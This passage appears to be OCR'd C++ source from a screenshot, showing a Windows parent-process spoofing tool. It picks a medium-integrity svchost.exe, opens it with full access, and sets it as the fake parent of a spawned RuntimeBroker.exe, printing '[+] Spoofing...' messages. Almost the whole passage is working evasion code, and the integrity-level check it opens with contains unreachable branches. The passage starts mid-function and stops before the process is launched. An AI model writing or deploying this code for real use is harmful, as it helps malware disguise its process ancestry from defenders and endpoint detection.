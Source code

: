 ```cpp
        return L"MEDIUM";
    }
    else if (dwIntegrityLevel >= SECURITY_MANDATORY_HIGH_RID) {
        return L"HIGH";
    }
    else if (dwIntegrityLevel >= SECURITY_MANDATORY_SYSTEM_RID) {
        return L"SYSTEM";
    }
}

DWORD getPPID(LPCWSTR processName) {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, processName)) {
                HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, process.th32ProcessID);
                if (hProcess) {
                    LPCWSTR integrityLevel = NULL;
                    integrityLevel = getIntegrityLevel(hProcess);
                    if (!wcscmp(integrityLevel, L"MEDIUM")) {
                        break;
                    }
                }
            }
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {
    STARTUPINFOEX si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    SIZE_T attributeSize;

    InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);

    LPCWSTR parentProcess = L"svchost.exe";
    DWORD dwParentPID = getPPID(parentProcess);
    printf("[+] Spoofing %ws (PID: %u) as the parent process.\n", parentProcess, dwParentPID);

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, dwParentPID);
    if (!hProcess) {
        wchar_t errorMessage[256];
        FormatMessage(FORMAT_MESSAGE_FROM_SYSTEM, NULL, GetLastError(), MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT), errorMessage, 255, NULL);
        printf("[!] Failed to get a handle with the following error: %ws\n", errorMessage);
        return -1;
    }
    printf("[+] Got a handle of 0x%p\n", hProcess);

    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProcess, sizeof(HANDLE), NULL, NULL);

    LPCWSTR spawnProcess = L"C:\\Windows\\System32\\RuntimeBroker.exe";
```